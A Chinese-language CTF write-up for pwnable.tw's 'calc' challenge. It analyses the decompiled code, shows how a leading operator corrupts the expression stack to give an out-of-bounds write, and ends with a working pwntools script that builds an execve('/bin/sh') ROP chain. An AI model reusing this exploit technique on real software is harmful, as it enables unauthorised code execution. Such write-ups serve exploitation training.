

## calc
##### discription: Have you ever use Microsoft calculator?
#### checksec
```
$ checksec calc
[*] '/home/chiehhhhh/pwnable_tw/calc'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```
#### analyze
##### main  
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _bsd_signal(14, timeout);
  alarm(60);
  IO_puts("=== Welcome to SECPROG calculator ===");
  IO_fflush(stdout);
  calc();
  return IO_puts("Merry Christmas!");
}
```
分析：主要就是進去跟你說歡迎，結束後跟你說聖誕節快樂，`calc`比較重要  

##### calc  
```
unsigned int calc()
{
  _DWORD v1[101]; // [esp+18h] [ebp-5A0h] BYREF
  _BYTE s[1024]; // [esp+1ACh] [ebp-40Ch] BYREF
  unsigned int v3; // [esp+5ACh] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  while ( 1 )
  {
    __bzero(s, 0x400u);
    if ( !get_expr(s, 1024) )
      break;
    init_pool(v1);
    if ( parse_expr(s, v1) )
    {
      _printf("%d\n", v1[v1[0]]);
      IO_fflush(stdout);
    }
  }
  return __readgsdword(0x14u) ^ v3;
}
```
分析：每次計算前都會用bzero把整個陣列清零，再來就是把其它看起來有趣的函數翻一翻  
##### get_expr  
```
int __cdecl get_expr(int a1, int a2)
{
  int v2; // eax
  char v4; // [esp+1Bh] [ebp-Dh] BYREF
  int v5; // [esp+1Ch] [ebp-Ch]

  v5 = 0;
  while ( v5 < a2 && _libc_read(0, &v4, 1) != -1 && v4 != 10 )
  {
    if ( v4 == 43 || v4 == 45 || v4 == 42 || v4 == 47 || v4 == 37 || v4 > 47 && v4 <= 57 )
    {
      v2 = v5++;
      *(_BYTE *)(a1 + v2) = v4;
    }
  }
  *(_BYTE *)(v5 + a1) = 0;
  return v5;
}
```
這是原汁原味IDA逆向出來的東西，可以看到ASCII直接變回數字了，所以整理一下比較好分析  
```
int __cdecl get_expr(int a1, int a2)
{
  int v2; // eax
  char v4; // [esp+1Bh] [ebp-Dh] BYREF
  int v5; // [esp+1Ch] [ebp-Ch]

  v5 = 0;
  while ( v5 < a2 && _libc_read(0, &v4, 1) != -1 && v4 != '\n' )
  {
    if ( v4 == '+' || v4 == '-' || v4 == '*' || v4 == '/' || v4 == '%' || v4 > '/' && v4 <= '9' )
    {
      v2 = v5++;
      *(_BYTE *)(a1 + v2) = v4;
    }
  }
  *(_BYTE *)(v5 + a1) = 0;
  return v5;
}
```
透過函數名稱可以知道這大概是讀取輸入跟判斷輸入的東西是不是運算子跟數字，是的話就就存到a1裡，然後最後把v5 aka user_input輸入的字串長度回傳，到這裡還是看不太出所以然，下面一位  
##### init_poor  
```
_DWORD *__cdecl init_pool(_DWORD *a1)
{
  _DWORD *result; // eax
  int i; // [esp+Ch] [ebp-4h]

  result = a1;
  *a1 = 0;
  for ( i = 0; i <= 99; ++i )
  {
    result = a1;
    a1[i + 1] = 0;
  }
  return result;
}
```
分析：指標後100位都變0  
##### parse_expr  
這個有點大串就拆一下  
```
int __cdecl parse_expr(int a1, _DWORD *a2)
{
  int v3; // eax
  int v4; // [esp+20h] [ebp-88h]
  int i; // [esp+24h] [ebp-84h]
  int v6; // [esp+28h] [ebp-80h]
  int v7; // [esp+2Ch] [ebp-7Ch]
  char *s1; // [esp+30h] [ebp-78h]
  int v9; // [esp+34h] [ebp-74h]
  _BYTE s[100]; // [esp+38h] [ebp-70h] BYREF
  unsigned int v11; // [esp+9Ch] [ebp-Ch]

  v11 = __readgsdword(0x14u);
  v4 = a1;
  v6 = 0;
```
問題不大，就是宣告跟初始化  
```
  __bzero(s, 0x64u);
  for ( i = 0; ; ++i )
  {
    if ( (unsigned int)(*(char *)(i + a1) - 48) > 9 )
    {
      v7 = i + a1 - v4;
      s1 = (char *)malloc(v7 + 1);
      memcpy(s1, v4, v7);
      s1[v7] = 0;
      if ( !strcmp(s1, "0") )
      {
        IO_puts("prevent division by zero");
        IO_fflush(stdout);
        return 0;
      }
```
分析：  
首先可以觀察到它先把s清空了，然後判斷輸入的字串是否非0\~9，是的話就運用`memcpy`把那些運算子前的字串也就是數字丟進s1  
如果s1=='0'就輸出prevent division by zero&離開函式  
`malloc` : 動態配置記憶體  
`memcpy` : 總之是複製字串，可以參考這篇[文章](https://www.ibm.com/docs/zh-tw/i/7.5.0?topic=functions-memcpy-copy-bytes)  
`strcmp` : 字串比對，一樣就回傳0；剩下就是如果str1>str2就回傳>0的數字，反之亦然  
```
      v9 = atoi(s1);
      if ( v9 > 0 )
      {
        v3 = (*a2)++;
        a2[v3 + 1] = v9;
      }
      if ( *(_BYTE *)(i + a1) && (unsigned int)(*(char *)(i + 1 + a1) - 48) > 9 )
      {
        IO_puts("expression error!");
        IO_fflush(stdout);
        return 0;
      }
      v4 = i + 1 + a1;
```
分析：  
首先atoi一下s1，然後存到v9裡  
如果v9>0，就把a2[0]存進v3，再把v9存進a2[a2[0]+1]  
同時a2[0]+=1  
如果當前算的運算子下一個也是運算子就報錯結束  
`atoi` : 除了sign跟num以外的部分過濾掉  
```
      if ( s[v6] )
      {
        switch ( *(_BYTE *)(i + a1) )
        {
          case '%':
          case '*':
          case '/':
            if ( s[v6] != '+' && s[v6] != '-' )
              goto LABEL_14;
            s[++v6] = *(_BYTE *)(i + a1);
            break;
          case '+':
          case '-':
LABEL_14:
            eval(a2, (char)s[v6]);
            s[v6] = *(_BYTE *)(i + a1);
            break;
          default:
            eval(a2, (char)s[v6--]);
            break;
        }
      }
      else
      {
        s[v6] = *(_BYTE *)(i + a1);
      }
      if ( !*(_BYTE *)(i + a1) )
        break;
    }
  }
  while ( v6 >= 0 )
    eval(a2, (char)s[v6--]);
  return 1;
}
```
總之就是優先運算的部分，剩下要注意的是eval  
##### eval
```
_DWORD *__cdecl eval(_DWORD *a1, char a2)
{
  if ( a2 == '+' )
  {
    a1[*a1 - 1] += a1[*a1];
  }
  else if ( a2 > '+' )
  {
    if ( a2 == '-' )
    {
      a1[*a1 - 1] -= a1[*a1];
    }
    else if ( a2 == '/' )
    {
      a1[*a1 - 1] /= (int)a1[*a1];
    }
  }
  else if ( a2 == '*' )
  {
    a1[*a1 - 1] *= a1[*a1];
  }
  --*a1;
  return a1;
}
```
看起來就是運算部份而已  
可能會想到底哪裡有洞，總之實際跑起來會發現只要你一開始輸入運算子，它後面運算的部分就會是錯的  
於是我們可以寫(畫)個流程：  
main start -> `calc()` -> `get_expr()` -> 運算子存到`a1[]` -> `parse_expr()` -> 運算子前沒東西所以是`\0` -> `atoi(\0)` -> 變成0 -> keypoint的檢查通過  
那已知這鬼東西不會被處理，我們可以再以算式跟流程看看  
`-22+26`  
第一個運算子`-`：  
main start -> `calc()` -> `get_expr()` -> 運算子存到`a1[]` -> `parse_expr()` -> 運算子前沒東西所以是`\0` -> `atoi(\0)` -> 變成0 -> keypoint的檢查通過 -> 存進s[0]  
第二個運算子`+`：  
切22 -> 丟進s1 -> 然後atoi後被存進a2[1] -> 再來抓運算子進`case '+'` -> eval(a2, s[0]) -> a1[1-1]-=a1[1] -> a1[0] = -21 -> --*a1 -> *a1 = -22  
可以看到a1的指標直接被我們改了，下次寫就是直接寫到a2[-21]了，可以得出會OOB  
#### calculate
我們需要知道ebp的位址，  
我們可以知道陣列會出問題，那回去看一下當初宣告時候的相對位址  
`_DWORD v1[101]; // [esp+18h] [ebp-5A0h] BYREF`  
可以知道是 `ebp-5A0`，然後也可以透過`ret address = ebp + 4`知道ret address在陣列第幾個  
總之就是 1440/4 = 360 ，saved ebp = a2[360]；ret address = a2[361]  
所以就先蓋360-1個後開始傳ROP，-1是因為a2[0]是指標  
#### ROP chain and exploit 
直接上exploit了有點懶，是說挺有趣的看了蠻多版writeup有些ebp有加offset有些沒有，我的是沒加就過了  
##### exploit.py
```
from pwn import *

r = remote("chall.pwnable.tw", 10100)

POP_EAX = 0x0805c34b # : pop eax ; ret
POP_EDX_ECX_EBX = 0x080701d0 # : pop edx ; pop ecx ; pop ebx ; ret
INT_80 = 0x08049a21 # : int 0x80

r.recv()
r.sendline(b"+360")
ebp = int(r.recv())

ROP_chain = [POP_EAX, 0x0b, POP_EDX_ECX_EBX, 0x0, 0x0, ebp, INT_80, u32('/bin'), u32('/sh\0')]

for i in range(361, 370):
    payload = "+"+str(i)
    r.sendline(payload.encode())
    num = int(r.recv())
    if(num<=ROP_chain[i-361]):
        num = ROP_chain[i-361] - num
        payload += "+" + str(num)
    else:
        num = num - ROP_chain[i-361]
        payload += "-" + str(num)
    r.sendline(payload.encode())
    r.recv()
r.interactive()
```
#### get flag
  
題外話，我喜歡flag的內容w